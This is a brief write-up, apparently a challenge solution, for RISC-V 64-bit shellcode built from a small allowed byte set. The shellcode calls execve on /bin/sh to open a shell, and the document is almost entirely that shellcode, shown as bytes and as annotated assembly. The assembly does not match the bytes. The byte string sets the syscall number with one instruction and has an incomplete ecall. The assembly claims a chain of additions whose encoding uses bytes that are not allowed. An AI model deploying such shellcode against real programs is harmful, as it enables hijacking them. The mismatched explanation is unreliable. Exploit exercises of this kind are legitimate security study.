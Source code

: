 # A risc-V maneuver

## shellcodeing problom for the RISC-V 64le architecture

the user is limmited to useing the following bytes to construct shellcode

`{ 0x01, 0x08, 0x0d, 0x45, 0x46, 0x47, 0x48, 0x49, 0x65, 0x73, 0x81, 0x93, 0xd0 }`

## bellow is my solution first as bytes then as riscv64le asm

` { 0x49, 0x65, 0x81, 0x45, 0x01, 0x46, 0x81, 0x46, 0x01, 0x47, 0x81, 0x47, 0x01, 0x48, 0x93, 0x08, 0xd0, 0x0d, 0x73 } `

sets a0 to 0x12000, location of /bin/sh

```
lui a0, 18
```

zero out other args

```
li a1, 0
li a2, 0
li a3, 0
li a4, 0
li a5, 0
li a6, 0
```

set a7 to 221, execve

```
li a7, 29
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
addi a7, a7, 24
```

syscall

```
ecall;
```
